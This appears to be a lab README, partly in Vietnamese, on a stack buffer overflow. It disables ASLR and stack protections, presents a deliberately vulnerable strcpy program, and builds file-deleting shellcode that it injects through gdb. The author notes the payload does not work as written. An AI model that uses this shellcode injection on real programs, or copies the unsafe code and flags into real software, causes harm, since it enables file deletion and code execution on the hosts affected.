 ## vuln(inject shell code file_del)
### Prepare for the lab environment:
1. Turn off OS's address space layout randomization (`sudo sysctl -w kernel.randomize_va_space=0`)<br>
(Tắt chế độ cấp phát địa chỉ stack ngẫu nhiên khi load chương trình của HĐH)<br>
2. Compile program with options to defeat stack protecting mechanism and code execution on stack:<br>
(Biên dịch chương trình c với các option tắt cơ chế bảo vệ stack và cho phép thực thi code trên stack)<br>
`$> gcc vuln.c -o vuln.out -fno-stack-protector -z execstack -mpreferred-stack-boundary=2`<br>
3. Creat link to zsh instead of default dash to turn off bash countermeasures of Ubuntu 16.04:<br>
`$> sudo ln -sf /bin/zsh /bin/sh`<br>

Source code:
```
#include<stdio.h>
#include<string.h>
int main(int argc, char* argv[])
{
    char buf[64];
    if (argc==1)
        printf("missing argument\n");
    else
        strcpy(buf,argv[1]);
    //printf("buf: 0x%x\n",(unsigned int)buf);
    return 0;
}
```
**vuln.c**
```
; delete dummyfile in nasm

section .text
global _start
_start:
    jmp short ender
starter:
    mov eax,10
    mov ebx,_filename
    int 0x80
_exit:
    mov eax,1
    int 0x80

ender:
    call starter
_filename:
    db 'dummyfile',0
```
**file_del.asm**

Complie by gcc:
`gcc -g vuln.c -o vuln.out -fno-stack-protector -mpreferred-stack-boundary=2 -z execstack`


Run file_del: <br>
`nasm -g -f elf file_del.asm`
<br>
`ld -m elf_i386 -o file_del file_del.o`
<br>
![compile vuln](./imgs/file_del1.png)
<br>
Run this command to get shellcode from `file_del`:
<br>
`for i in $(objdump -d file_del |grep "^ " |cut -f2); do echo -n '\x'$i; done;echo`
<br>
![shellcode](./imgs/file_del2.png)
<br>

Use `gdb` to run program:
<br>
`gdb vuln.out -q`
<br>
![gdb](./imgs/file_del3.png)
<br>
break at 2 points: <br>
`0x08048441`
<br>
`0x0804846b`
<br>
<br> Run program: <br>
`gdb-pead$ r $(python -c "print('\xeb\x13\xb8\x0a\x00\x00\x00\xbb\x7a\x80\x04\x08\xcd\x80\xb8\x01\x00\x00\x00\xcd\x80\xe8\xe8\xff\xff\xff\x64\x75\x6d\x6d\x79\x66\x69\x6c\x65\x00' + 'a'*32 + '\xff\xff\xff\xff')")`
![](./imgs/file_del4.png)
<br> Continue: `gdb-peda$ c` <br>
![](./imgs/file_del5.png)
<br> `x/80xb $esp` to check stack <br>
We got some problem in shellcode. It's wrong when running program.
